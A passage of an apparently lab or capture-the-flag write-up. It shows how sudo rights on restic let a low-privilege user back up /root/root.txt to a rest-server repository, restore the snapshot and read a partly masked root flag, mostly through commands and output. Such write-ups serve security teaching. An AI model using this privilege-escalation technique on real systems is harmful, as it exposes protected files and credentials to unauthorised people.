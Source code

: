 Now with the repository created I can use the sudo privileges to copy over the root.txt  over to the rest-server
```
www-data@bolt:~$ sudo /usr/bin/restic backup -r rest:http://localhost:8000/data /root/root.txt
enter password for repository: 
password is correct
found 2 old cache directories in /var/www/.cache/restic, pass --cleanup-cache to remove them
using parent snapshot e0c30d3f
scan [/root/root.txt]
scanned 0 directories, 1 files in 0:00
[0:00] 100.00%  33B / 33B  1 / 1 items  0 errors  ETA 0:00 
duration: 0:00
snapshot 691d2202 saved
```
Now to read the file I first list the snapshots to get the snapshot ID of the file.
```
# restic -r rest:http://localhost:8000/data snapshots
enter password for repository: 
repository 2120a039 opened successfully, password is correct
ID        Time                 Host        Tags        Paths
---------------------------------------------------------------------
691d2202  2019-11-22 23:27:01  bolt                    /root/root.txt
---------------------------------------------------------------------
```
Then I extract the file to my current working directory
```
# restic -r rest:http://localhost:8000/data restore 691d2202 --target .
enter password for repository: 
repository 2120a039 opened successfully, password is correct
restoring <Snapshot 691d2202 of [/root/root.txt] at 2019-11-23 04:27:01.214716163 +0000 UTC by root@bolt> to .
```
Now I can read the `root.txt` file
```
# cat root.txt 
ntrkzgnkotaxyju0***************
```
